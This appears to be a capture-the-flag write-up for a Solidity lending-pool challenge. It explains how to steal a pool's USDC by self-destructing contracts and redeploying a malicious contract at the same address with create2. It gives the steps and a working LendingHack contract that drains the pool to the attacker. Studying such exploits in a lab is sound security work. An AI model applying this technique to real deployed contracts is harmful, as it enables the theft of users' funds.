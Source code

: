 Unbeknownst to the LendEx team, a hacker hide a bug in the LendingPool smart contract with a intention to exploit the bug later. LendEx team reviewed smart contract source code, approved it for the usage and deposited the funds from the LendExGovernor contract to the LendingPool contract.

Do you have what it takes to spot how hacker is planning to exploit the LendEx?

📌 You have to fill the shoes of the hacker and execute the exploit by stealing stablecoins from a lending pool.  
📌 Note: Foundry has a bug. If a selfdestruct() is triggered in a test script then it has to be done in the setUp() function and the rest of the code should be in a different function otherwise foundry test script does not see that selfdestruct happened to a contract.
📌 You have to modify LendingHack.sol and setUp(), testExploit() functions for Challenge3.t.sol.

## Solution

The attacker can use the create2 and selfdestruct() functionalities to switch out contracts under the owner's nose. As the contracts also hold ERC-20s instead of eth, nothing gets burned in the selfdestruct(). The attack takes a few steps.

1. Selfdestruct createDeployer and lendingPool to make their spots free again(otherwise a revert would be triggered)
2. Recreate createDeployer (will be deployed to the same spot as salt is always the same), his nonce will also be reset to 0
3. Use createDeployer to deploy the LendingHack instead of the lendingPool
4. LendingHack will be deployed at the address lendingPool was at before as the nonce of createDeployer is 0 again.
5. Transfer all the USDC to yourself
6. Change the name & storage of the LendingHack beforehand, so the testcase passes

So I started by writing my LendingHack contract, which was pretty easy as it only needed the same storage layout as lendingPool as well as the function to send all its USDC to the attacker in its constructor.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import {USDC} from "./USDC.sol";

/**
 * @title LendingPool
 */
contract LendingHack is Ownable {
    /*//////////////////////////////
    //    Add your hack below!    //
    //////////////////////////////*/
    mapping(address => uint256) public balances;
    USDC public usdc;
    string public constant name = "LendingPool hack";

    /**
     * @dev Constructor that sets the owner of the contract
     * @param _usdc The address of the USDC contract to use
     * @param _owner The address of the owner of the contract
     */
    constructor(address _owner, address _usdc) {
        // change me pls :)
        _transferOwnership(_owner);
        usdc = USDC(_usdc);
        usdc.transfer(_owner, usdc.balanceOf(address(this)));
    }

    //============================//
}
```